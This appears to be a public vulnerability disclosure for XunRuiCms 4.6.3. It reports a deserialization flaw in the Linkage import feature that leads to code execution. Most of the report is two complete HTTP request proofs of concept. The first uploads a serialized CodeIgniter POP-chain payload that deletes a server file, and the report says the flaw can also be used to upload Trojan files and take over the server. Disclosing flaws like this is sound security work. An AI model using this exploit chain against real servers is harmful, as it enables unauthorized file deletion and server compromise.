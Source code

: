# XunRuiCms has unserialization  and code excute vulnerability.

## supplier 
https://gitee.com/dayrui/xunruicms/archive/refs/tags/4.6.3.zip
## Vulnerability file
Linkage.php

## describe

There is a deserialization vulnerability in the latest version of Xunrui CMS gitee release, which can execute code and construct POP chains according to the purpose of exploitation, such as RCE chains, execute system commands. A malicious attacker is able to gain privileges on the server.

**Code analysis**    

upload file, and get the content of the file and pass it to the dr_string2array. The content is passed to the unserialize function.Causes code to execute.A malicious attacker is able to gain privileges on the server.

![Image](https://github.com/user-attachments/assets/818ee3e6-525c-4cad-b479-72b7406cf5c5)

![Image](https://github.com/user-attachments/assets/5b954fe5-aa63-49dd-ab3f-ea5951a5143e)

## POC

POC1

```
POST /admin8bb7bf91c8d6.php?c=linkage&m=import_upload&key=1 HTTP/1.1
Host: xunruicms2025
Content-Length: 601
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryA8e80jljbZzkC1lP
Origin: http://xunruicms2025
Referer: http://xunruicms2025/admin8bb7bf91c8d6.php?c=linkage&m=import&key=1&is_iframe=1
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: 37f037ac60e6a7104d81349739852ba3_member_uid=1; 37f037ac60e6a7104d81349739852ba3_member_cookie=c2486e29c0b7f7ce1b6ff520111fb346; csrf_cookie_name=19d383ddd56777a7cf3c3902bc02a4e1; ci_session=uan9r51o16unuor7cpf5h090qnjrkm13
Connection: close

------WebKitFormBoundaryA8e80jljbZzkC1lP
Content-Disposition: form-data; name="csrf_test_name"

19d383ddd56777a7cf3c3902bc02a4e1
------WebKitFormBoundaryA8e80jljbZzkC1lP
Content-Disposition: form-data; name="file_data"; filename="POP.json"
Content-Type: application/json

O:39:"CodeIgniter\\Cache\\Handlers\\RedisHandler":1:{s:5:"redis";O:45:"CodeIgniter\\Session\\Handlers\\MemcachedHandler":2:{s:7:"lockKey";s:8:"pass.txt";s:9:"memcached";O:38:"CodeIgniter\\Cache\\Handlers\\FileHandler":2:{s:6:"prefix";s:10:"E:\\XunRui\\";s:4:"path";s:0:"";}}}
------WebKitFormBoundaryA8e80jljbZzkC1lP--

```

poc2

```
GET /admin8bb7bf91c8d6.php?c=linkage&m=import_add&key=1&page=1 HTTP/1.1
Host: xunruicms2025
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://xunruicms2025/admin8bb7bf91c8d6.php?c=linkage&m=import_add&key=1
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: 37f037ac60e6a7104d81349739852ba3_member_uid=1; 37f037ac60e6a7104d81349739852ba3_member_cookie=c2486e29c0b7f7ce1b6ff520111fb346; csrf_cookie_name=19d383ddd56777a7cf3c3902bc02a4e1; ci_session=uan9r51o16unuor7cpf5h090qnjrkm13
Connection: close


```

**Result**

Obtained system permissions and deleted pass.txt files.

![Image](https://github.com/user-attachments/assets/7249220d-5bf2-4c98-a8d5-f3297ce0dc65)

![Image](https://github.com/user-attachments/assets/07f4ce66-1fbe-441c-be16-aa93749a4b23)

OR use this  vulnerability to upload Trojan files. Obtain server permissions

![Image](https://github.com/user-attachments/assets/4c99ee7a-38e7-439a-9e53-e27d43162201)